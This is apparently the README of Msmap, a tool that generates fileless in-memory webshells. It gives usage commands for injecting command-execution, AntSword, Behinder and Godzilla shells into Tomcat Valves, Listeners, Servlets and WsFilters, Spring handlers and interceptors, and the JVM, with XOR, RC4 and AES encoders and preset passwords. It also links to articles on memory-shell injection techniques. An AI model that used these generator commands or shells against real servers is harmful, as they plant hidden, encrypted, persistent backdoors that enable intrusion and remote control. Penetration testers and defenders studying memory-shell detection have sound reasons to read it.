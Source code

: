 # MSMAP

Msmap is a Memory WebShell Generator. Compatible with various Containers, Components, Encoder, *WebShell / Proxy / Killer* and Management Clients. [简体中文](README_CN.md)

[The idea behind I](https://hosch3n.github.io/2022/08/08/Msmap%E5%86%85%E5%AD%98%E9%A9%AC%E7%94%9F%E6%88%90%E6%A1%86%E6%9E%B6%EF%BC%88%E4%B8%80%EF%BC%89/), [The idea behind II](https://hosch3n.github.io/2022/08/09/Msmap%E5%86%85%E5%AD%98%E9%A9%AC%E7%94%9F%E6%88%90%E6%A1%86%E6%9E%B6%EF%BC%88%E4%BA%8C%EF%BC%89/), [The idea behind III](https://hosch3n.github.io/2022/10/29/Msmap%E5%86%85%E5%AD%98%E9%A9%AC%E7%94%9F%E6%88%90%E6%A1%86%E6%9E%B6%EF%BC%88%E4%B8%89%EF%BC%89/)

![](img/a.png)

![](img/b.png)

![](img/c.png)

<details>
<summary>Feature [WIP]</summary>

### Function

- [x] Dynamic Menu
- [x] Automatic Compilation
- [x] Generate Script
- [ ] Lite Mode
- [ ] Graphical Interface

### Container

- Java
  - [x] Tomcat7
  - [x] Tomcat8
  - [x] Tomcat9
  - [x] Tomcat10
  - [x] Resin3
  - [x] Resin4
  - [ ] WebSphere
  - [ ] GlassFish
  - [ ] WebLogic
  - [ ] JBoss
  - [x] Spring*
  - [ ] Jetty
  - [ ] Netty
  - [x] JVM*
- .NET
  - [ ] IIS
- PHP
- Python

*: SpringHandler only support for JDK8+

*: JVM Default support for `Linux Tomcat 8/9`, more versions can be adapted according to the advanced guide.

### WebShell / Proxy / Killer

- WebShell
  - [x] CMD / SH
  - [x] AntSword
  - [x] JSPJS
  - [x] Behinder
  - [x] Godzilla

- No need for modularity

~~Proxy: Neo-reGeorg, wsproxy~~

~~Killer: java-memshell-scanner, ASP.NET-Memshell-Scanner~~

### Decoder / Decryptor / Hasher

- Decoder
  - [x] Base64
  - [ ] Hex
- Decryptor
  - [x] XOR
  - [x] RC4
  - [x] AES128
  - [x] AES256
  - [ ] RSA
- Hasher
  - [x] MD5
  - [x] SHA128
  - [x] SHA256

</details>

## Usage

``` bash
git clone git@github.com:hosch3n/msmap.git
cd msmap
python generator.py
```

> [Warning] MUST set a unique password, Options are case sensitive.

### Advanced

Edit `config/environment.py`

``` python
# Auto Compile
auto_build = True

# Base64 Encode Class File
b64_class = True

# Generate Script File
generate_script = True

# Compiler Absolute Path
java_compiler_path = r"~/jdk1.6.0_04/bin/javac"
dotnet_compiler_path = r"C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe"
```

Edit `gist/java/container/tomcat/servlet.py`

``` java
// Servlet Path Pattern
private static String pattern = "*.xml";
```

If an encryption encoder is used in WsFilter, the password needs to be the same as the path (eg `/passwd`)

`gist/java/container/jdk/javax.py` with `lib/servlet-api.jar` can be replaced depending on the target container.

`pip3 install pyperclip` to support automatic copying to clipboard.

## Example

<details>
<summary>CMD / SH</summary>

**Command** with **Base64** Encoder | Inject Tomcat Valve

`python generator.py Java Tomcat Valve Base64 CMD passwd`

</details>

<details>
<summary>AntSword</summary>

Type **JSP** with **default** Encoder | Inject Tomcat Valve

`python generator.py Java Tomcat Valve RAW AntSword passwd`

Type **JSP** with **[aes_128_ecb_pkcs7_padding_md5](extend/AntSword/encoder/aes_128_ecb_pkcs7_padding_md5.js)** Encoder | Inject Tomcat Listener

`python generator.py Java Tomcat Listener AES128 AntSword passwd`

Type **JSP** with **[rc_4_sha256](extend/AntSword/encoder/rc_4_sha256.js)** Encoder | Inject Tomcat Servlet

`python generator.py Java Tomcat Servlet RC4 AntSword passwd`

Type **JSP**  with **[xor_md5](extend/AntSword/encoder/xor_md5.js)** Encoder | AgentFiless Inject HttpServlet

`python generator.py Java JDK JavaX XOR AntSword passwd`

Type **JSPJS** with **[aes_128_ecb_pkcs7_padding_md5](extend/AntSword/encoder/aes_128_ecb_pkcs7_padding_md5.js)** Encoder | Inject Tomcat WsFilter

`python generator.py Java Tomcat WsFilter AES128 JSPJS passwd`

Type **JSPJS** with **[xor_md5](extend/AntSword/encoder/xor_md5.js)** Encoder | Inject Spring Handler

`python generator.py Java Spring Handler XOR JSPJS passwd`

</details>

<details>
<summary>Behinder</summary>

Type **default_aes** | Inject Tomcat Valve

`python generator.py Java Tomcat Valve AES128 Behinder rebeyond`

Type **default_xor_base64** | Inject Spring Interceptor

`python generator.py Java Spring Interceptor XOR Behinder rebeyond`

</details>

<details>
<summary>Godzilla</summary>

Type **JAVA_AES_BASE64** | Inject Tomcat Valve

`python generator.py Java Tomcat Valve AES128 Godzilla superidol`

Type **JAVA_AES_BASE64** | AgentFiless Inject HttpServlet

`python generator.py Java JDK JavaX AES128 Godzilla superidol`

Type **JAVA_AES_BASE64** | Inject Spring Handler

`python generator.py Java Spring Handler AES128 Godzilla superidol`

> [Known issue](https://github.com/BeichenDream/Godzilla/issues/76)

</details>

## Reference

[GodzillaMemoryShellProject](https://github.com/BeichenDream/GodzillaMemoryShellProject)

[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)

[As-Exploits memshell_manage](https://github.com/yzddmr6/As-Exploits/tree/master/core/memshell_manage)

[Behinder](https://github.com/rebeyond/Behinder) | [wsMemShell](https://github.com/veo/wsMemShell) | [ysomap](https://github.com/wh1t3p1g/ysomap)

<details>
<summary>Extended Reading</summary>

[利用“进程注入”实现无文件复活 WebShell](https://www.freebuf.com/articles/web/172753.html)

[基于内存 Webshell 的无文件攻击技术研究](https://landgrey.me/blog/12/)

[利用 intercetor 注入 spring 内存 webshell](https://landgrey.me/blog/19/)

[linux下java反序列化通杀回显方法的低配版实现](https://xz.aliyun.com/t/7307)

[Tomcat中一种半通用回显方法](https://xz.aliyun.com/t/7348)

[基于tomcat的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388)

[基于全局储存的新思路 | Tomcat的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&amp;mid=2651374294&amp;idx=3&amp;sn=82d050ca7268bdb7bcf7ff7ff293d7b3)

[tomcat不出网回显连续剧第六集](https://xz.aliyun.com/t/7535)

[中间件内存马注入&冰蝎连接](https://paper.seebug.org/1441/#2mbeancontext)

[Java内存马：一种Tomcat全版本获取StandardContext的新方法](https://xz.aliyun.com/t/9914)

[Java内存攻击技术漫谈](https://xz.aliyun.com/t/10075)

[Linux下内存马进阶植入技术](https://xz.aliyun.com/t/10186)

[Spring cloud gateway通过SPEL注入内存马](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/)

[CVE-2022-22947 注入哥斯拉内存马](https://blog.wanghw.cn/tech-share/cve-2022-22947-inject-godzilla-memshell.html)

[Linux下无文件Java agent探究](https://tttang.com/archive/1525/)

[论如何优雅的注入Java Agent内存马](https://xz.aliyun.com/t/11640)

</details>